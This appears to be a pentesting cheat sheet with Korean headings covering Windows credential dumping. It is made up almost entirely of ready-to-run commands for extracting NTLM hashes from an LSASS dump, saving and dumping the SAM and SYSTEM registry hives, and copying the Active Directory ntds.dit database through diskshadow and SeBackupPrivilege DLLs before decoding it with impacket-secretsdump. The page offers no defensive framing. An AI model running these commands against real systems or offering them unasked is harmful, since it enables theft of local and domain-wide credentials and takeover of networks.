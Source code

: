 ### DMP 파일 복원하기
```bash
pypykatz lsa minidump lsass.DMP > lsass.txt
# 덤프파일에서 ntlm 해시만 추출
cat lsass.txt | grep "NT" | awk -F: '{print $2}' | sort | uniq > ntlm.hash
```



### Local Exploit
#### Dump
```bash
# SAM, SYSTEM 덤프
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```
#### Mimikatz
```bash
lsadump::sam /system:system.hive /sam:sam.hive
```
#### impacket-secretsdump.py
```bash
impacket-secretsdump -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL
impacket-secretsdump -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
#### pypykatz
```bash
pypykatz registry --sam sam system
```

### Active Directory Exploit 1
#### Make l8bl.dsh
```powershell
set context persistent nowriters
add volume c: alias l8bl
create
expose %l8bl% z:
```
#### Making diskshadow and dump
```powershell
# Make temp directory
mkdir temp
# upload l8bl.dsh
upload l8bl.dsh
# Make diskshadow with l8bl.dsh
diskshadow /s l8bl.dsh
# copy ntds from diskshadow
robocopy /b z:\windows\ntds . ntds.dit
# save SYSTEM
reg save hklm\system C:\temp\system
# download ntds and SYSTEM
download ntds.dit
download system

```
#### impacket-secretsdump.py
```powershell
impacket-secretsdump -ntds ntds.dit -system system local
```

### Active Directory Exploit 2
#### Using dll
https://github.com/giuliano108/SeBackupPrivilege
```bash
# Make temp directory
cd C:\Temp
# Upload l8bl.dsh and dlls
upload l8bl.dsh
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# Creating the Backup
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
diskshadow /s l8bl.dsh
# Copy ntds and save system
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
reg save hklm\system c:\Temp\system
# Download ntds and system
download ntds.dit
download system

```

#### impacket-secretsdump.py
```powershell
impacket-secretsdump -ntds ntds.dit -system system local
impacket-secretsdump -sam 'sam.hive' -system 'system.hive' LOCAL
```

